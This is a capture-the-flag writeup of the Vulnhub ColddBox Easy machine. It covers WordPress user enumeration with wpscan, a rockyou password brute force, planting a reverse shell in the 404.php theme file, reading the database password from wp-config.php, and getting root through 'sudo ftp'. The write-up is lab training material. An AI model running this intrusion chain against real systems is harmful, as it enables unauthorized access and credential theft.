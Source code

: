 ```yaml
---
title: Vulnhub - ColddBox Easy
description: My writeup on ColddBox Easy box.
categories:
 - vulnhub
tags: vulnhub wordpress wpscan ftp sudo wp-config
---
```


![](https://i.imgur.com/Zf32sKS.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **ColddBox**  | 
| Series :      | **ColddBox**         |
| Difficulty :  | **Easy**             |   
| Release Date :| **23 Oct 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [C0ldd](https://twitter.com/@C0ldd__){:target="_blank"}     | 
| Download :    | [ColddBox](https://www.vulnhub.com/entry/colddbox-easy,586/){:target="_blank"}      | 

## Summary

Hello all! Finally i found the time to do some CTF! :smile: This one was a very very very easy box based on wordpress stuff, a good box for warmup. We start by running a wpscan scan and we discover 3 users & we run a brute force on them using the rockyou wordlist. This way we get a shell as www-data. Privesc to root is simple we can exploit multiple stuff. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.15                                                                                                                                                                130 ↵
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-25 23:54 EET
Nmap scan report for colddbox-easy.zte.com.cn (192.168.1.15)
Host is up (0.00028s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
4512/tcp open  unknown
MAC Address: 08:00:27:5A:F4:E8 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.42 seconds
$ nmap -p 80,4512 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-25 23:54 EET
Nmap scan report for colddbox-easy.zte.com.cn (192.168.1.15)
Host is up (0.00061s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
```

Once we visit the website, we can see a wordpress site:

![](https://i.imgur.com/EftMppU.png)

Let's run a `wpscan` on it, we can see there are no plugins but 3 users:

```
$ wpscan --no-banner --url http://$ip/ -e ap,u
..data..

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Of course we will continue with a brute force on them using the `rockyou` wordlist:

```
$ wpscan --no-banner --url http://$ip/ -U philip,c0ldd,hugo -P /usr/share/wordlists/rockyou.txt                                                            130 ↵
..data..

[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                                                                     
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Perfect we can login in as `c0ldd:9876543210`

## Shell as www-data

Follow my steps now for a reverse shell:

Once we login into the admin panel `/wp-admin` we have to move under appearance -> editor:

![](https://i.imgur.com/bKuLosB.png)

We click on `404.php` template and we paste our reverse shell & then click update file.

![](https://i.imgur.com/hgWbd53.png)

Now for execution we need the path, which is `/wp-content/themes/twentyfifteen/404.php` & We have shell back:

```
$ nc -lvp 5555                                                                                                                                             127 ↵
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as c0ldd

We have to check the `wp-config.php` for the DB_PASSWORD:

```
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php | grep "DB_PASSWORD"
define('DB_PASSWORD', 'cybersecurity');
www-data@ColddBox-Easy:/var/www/html$ su - c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:~$ whoami;id
c0ldd
uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Shell as root

There are lot of ways to gain a root shell, if you're beginner you should try to exploit them all it's a great practise. I'll use the `sudo -l` way to exploit ftp.

```
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:~$ sudo ftp
ftp> !/bin/bash
root@ColddBox-Easy:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```


## Reading the flag(s)

```
root@ColddBox-Easy:/root# base64 -d root.txt ; printf "\n"
¡Felicidades, máquina completada!
root@ColddBox-Easy:/root# base64 -d /home/c0ldd/user.txt ; printf "\n"
Felicidades, primer nivel conseguido!
```

No idea what this means, one sec let me translate :P

`root.txt -> Cheers, machine completed!`

`user.txt -> Cheers, first level achieved!`

Great.

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:
